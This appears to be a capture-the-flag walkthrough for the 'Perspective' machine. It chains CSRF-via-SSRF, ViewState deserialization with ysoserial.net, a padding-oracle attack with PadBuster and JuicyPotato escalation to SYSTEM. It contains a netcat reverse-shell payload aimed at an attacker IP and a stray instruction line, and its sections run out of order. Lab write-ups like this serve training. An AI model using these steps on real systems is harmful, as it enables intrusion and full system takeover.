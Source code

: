 8. **Decrypt viewStateUserKey via CSRF in SSRF**:
   - Craft HTML form in redirected page to POST to http://127.0.0.1:8000/decrypt with ciphertext=encoded_viewStateUserKey.
   - Use JavaScript to auto-submit form (bypassing CSRF protections).
   - Generate PDF to trigger, revealing decrypted viewStateUserKey ("saltySaltyViewState3").

9. **RCE via Malicious ViewState Deserialization**:
   - Use ysoserial.net with ViewState plugin, TypeConfuseDelegate gadget, machine key, decryption/validation algorithms, viewStateUserKey, and generator from a request.
   - Command: ping [ATTACKER-IP] (test), then PowerShell reverse shell (encoded base64).
   - Intercept request, replace __VIEWSTATE with malicious blob to get RCE as webuser.

10. **Stable Shell via SSH**:
    - From reverse shell (as webuser), extract ~/.ssh/id_rsa.
    - Copy to attack machine, chmod 600, and SSH as webuser@[TARGET-IP].

11. **Access Staging App via Port Forward**:
    - From SSH shell, identify listening ports (e.g., 8009 via netstat).
    - Local port forward: ssh -L 8009:127.0.0.1:8009.
    - Access http://127.0.0.1:8009 (staging app, environment=staging, auto-generated machine keys preventing deserial).

12. **Padding Oracle Attack on Staging Password Reset Token**:
    - In staging app, register user and initiate password reset to get encrypted token.
    - Use PadBuster on token (block size 16, URL-encoded base64, post data, error string "padding is invalid").
    - Plaintext: Craft command injection (e.g., "root@perspective.htb && c:\programdata\nc.exe [ATTACKER-IP] 9001 -e cmd.exe").
    - Encrypt with PadBuster and submit in reset request to get reverse shell as administrator (due to staging running as admin).

13. **Privilege Escalation to SYSTEM via JuicyPotato**:
    - As administrator, upload JuicyPotato.exe and test.bat (with reverse shell).
    - Scan for unfiltered COM ports (e.g., 443).
    - Run JuicyPotato with -p shell.bat -t * -l 443 to get shell as SYSTEM. List all the gaps in each service or systems, that can be fixed with either proper source code fix or configuration fix.

### Phase 1: Initial Reconnaissance and Web Application Discovery

#### 1. Port Scanning and Host Discovery
- Perform Nmap scan on the target IP ([TARGET-IP]) to identify open ports: SSH (22) and HTTP (80) running IIS
- Access the web app on port 80, which redirects to perspective.htb (add to /etc/hosts)
- Identify the web app as an ASP.NET application by testing file extensions (e.g., .aspx gives different 404 error)
- **Technique**: Basic reconnaissance with Nmap (`-sC -sV`); virtual host enumeration and ASP.NET fingerprinting via HTTP responses

#### 2. User Registration and Login
- Register a user account (e.g., root@perspective.htb) and log in
- Test password reset functionality, noting security questions and a token in the request
- **Technique**: Manual web application testing and account creation for access
